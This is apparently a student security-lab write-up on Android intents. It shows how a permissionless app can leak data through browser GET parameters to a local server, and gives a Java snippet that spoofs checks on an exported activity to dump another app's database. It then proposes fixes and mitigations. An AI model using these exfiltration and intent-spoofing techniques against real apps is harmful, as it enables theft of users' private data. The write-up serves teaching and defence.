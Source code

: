 # 1 - No-permission apps

In this part, we will exfiltrate some data to a server, without using
the `Internet` permission.

First, we need to setup a web server. Here, it is a localhost server
running on port 3001, so its address is `10.0.2.2:3001` on the emulated
device.

Then, we populate the database on the app:

![Database content](./assets/database_content_p1.png)

When we want to exfiltrate the data, we just have to create an intent to
open our server webpage with GET parameters, like
`http://10.0.2.2:3001/?secret1=abc&secret2=def`.

In our example, the server received this:

![Server request](./assets/server_request_p1.png)

On android and iOS, apps are sandboxed and heavily restricted, as
opposed to desktop apps. If an app wants to access a private resource
(camera, location, etc), it needs to be explicitely allowed to do so by
the OS and the user. The goal is to make these apps as secure and as
privacy-aware as possible. While on desktop a simple Tetris has read and
write access to all user files, on android even a vulnerable app is
limited in its action. it also hints on illegitimate apps; for examle,
the flashlight app shouldn't require microphone access.

However, here our application uses a simple trick to bypass this
permission system. It will open the web browser on a specific page, and
while it usually is quite innocent since the webpage cannot talk back to
the app, it is enough to leak informations using GET parameters. It
should be noted however that, first, the data accessible is only our own
data, which limits the damages possible, and that this method isn't very
discreet, as the user clearly sees its browser opening.

# 2 - Malicious intents

In the MACLocation app, the `DatabaseActivity.onCreate` method will, as
its name suggests, create the app. It will look at the caller intent and
act differently depending on its action. Here, if the field
`"ITEM_ACTION"` is set to `"GET_ITEMS_ACTION"`, it will retrieve all
database content and send it back to the caller.

The problem is that if a third-party app opens this activity with the
right action, the activity won't check which app the intent is coming
from and will exfiltrate all its database to the external app through
the result intent.

The malicious intent code is the following one:

```java
// Activity intent
Intent i = new Intent(Intent.ACTION_MAIN);
// Explicitely set the component that will receive the intent
i.setComponent(new ComponentName(
    "lbs.lab.maclocation", // Target package
    "lbs.lab.maclocation.DatabaseActivity" // Target activity
));
// MIME data type, equal to `DatabaseActivity.class.getCanonicalName()`
//  Used to trick the DatabaseActivity condition
i.setType("lbs.lab.maclocation.DatabaseActivity");
// Action, here fetch all data, but could also be SET_ITEMS_ACTION to
//  override the database content
i.putExtra(ITEM_ACTION, GET_ITEMS_ACTION);
```

Once the data retrieved, we need to deserialize it by creating our own
implementation of `lbs.lab.maclocation.Item`, and then exfiltrate it
like we did previously in the first part.

There are currently a few checks in `DatabaseActivity`:
- The MIME data type should be set to
`"lbs.lab.maclocation.DatabaseActivity"`, which is easy to set
- The `"ITEM_ACTION"` field should be set to `"GET_ITEMS_ACTION"`, again
we could guess it using the source code or a decompiler
- The caller activity should be named `MainActivity`, easy to spoof

This last check is the one which should be changed in order to fix this
vulnerability. Instead of checking the value of `getShortClassName()` to
compare the activity names, it should use `getClassName()`, that will
differentiate `lbs.lab.maclocation.MainActivity` and
`lbs.lab.macintent.MainActivity`.

Moreover, in the Android manifest, `DatabaseActivity` is wrongly marked
as `exported`, which makes it accessible to any third-party app through
an intent.

# 3 - Protections and mitigations

There could be several ways to protect against these threats, on several
levels.

On a more general note though, explicit intents should be avoided and
should even maybe be completely discarded. Apps should pass through an
app chooser and not hardwire the target in the source code, which is
error prone and can lead to several attacks like we saw previously.

## 3.1 - Against permission escape: part 1

First, the permissions could be implemented per intent, not per app. If
an app A calls an app B, and B has the internet permission but not A, A
is still able to access internet through B. However, a defense would be
for the intent from A to B to require some kind of permission, which
would force A to declare the internet permission. This would still be
pretty challenging though, as we need to be sure which permissions are
used, otherwise if B suddently adds the camera permission it would break
A even though it doesn't use it.

The solution above could also be completed using a stacktrace of chained
events, to avoid the confused app B to send a third intent that will
look legitimate for the third (or same) app.

## 3.2 - Against data leak: part 2

A way to avoid data leak would be to somehow track the data from B to A.
If the data of B is leaked back to A without a kind of approval, then
the data would be made unusable by the system. This is still a rough
idea though, as this would probably lead to many challenge to face.

Maybe we could also rank the data importance, like the information flow
security lectures we had. A high (important) app would only be able to
share its data to other high apps, and low apps would not be able to
fetch this high data. Or, to continue with data tracking, low apps could
be allowed as long as there isn't an information flow from high data to
low data, ie the data use would be severely restricted.

Related to this suggestion, critical informations related to banking or
health for example should probably be locked behind a password, such
that any legitimate intent would have this token in memory while
external explicit intents wouldn't be able to unlock the data. It goes
without saying that critical activities should also not be publicly
exposed in the Android manifest.

Intents could also use a kind of signature, to avoid spoofing its
origin. This is already something that can - and should - be done, but
the Android kernel should go even further. What we saw earlier is that
to deserialize the data fetched we needed to create our own
implementation of the data object. This shouldn't be allowed, and a
serialized object should only be deserializable by the implementation
in its own app, not by any third-party app, even if the implementation
is the same.
